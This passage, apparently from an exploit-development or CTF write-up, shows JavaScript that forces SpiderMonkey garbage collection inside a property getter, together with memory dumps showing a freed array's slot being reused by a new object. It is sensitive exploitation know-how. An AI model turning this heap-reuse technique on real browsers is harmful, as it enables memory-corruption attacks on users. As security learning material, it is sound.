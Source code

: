 Now we attempt to reallocate onto the `elements` array of `a`. Essentially, we can manually trigger garbage collection such that JavaScript essentially "cleans up" the heap. As far as I know (not necessarily accurate), how this works is initially `a` resides in the nursery heap, but during garbage collection, since JavaScript sees that `a` is still an "in-use" object, it survives the nursery and gets reallocated in a different heap, thus freeing up the space for us to allocate a different object in the nursery heap.

```js
/* force trigger garbage collection */
function gc() {
  new ArrayBuffer(0x7fe00000);
}

function exp() {
  gc(); // initial cleanup to ensure consistency
  let a = [1, 2, 3];
  dumpValue(a);
  let target;
  Object.defineProperty(a, 'from', {
    get: function() {
      gc(); // move a away from the nursery
      target = [4, 5, 6]; // allocate a new object in its place
      dumpValue(target);
      return 1;
    }
  });
  a.to = 2;
  a.swap();
}
exp();
```

```js
{
  "type": "object",
  "address": "(JSObject*)0x1a512ec00020",
  // ...
  "elementsHeader": "<(js::ObjectElements*)0x1a512ec00038, flags=[FIXED], init=3, capacity=6, length=3>",
  // ...
  "elements": {
    "0": "1",
    "1": "2",
    "2": "3"
  }
}
Current object: 0x1a512ec00020
Current length/capacity: 3 / 6
elements: 0x1a512ec00048

{
  "type": "object",
  "address": "(JSObject*)0x1a512ec00020",
  // ...
  "elementsHeader": "<(js::ObjectElements*)0x1a512ec00038, flags=[FIXED], init=3, capacity=6, length=3>",
  // ...
  "elements": {
    "0": "4",
    "1": "5",
    "2": "6"
  }
}
fromVal: 1
toVal: 2
```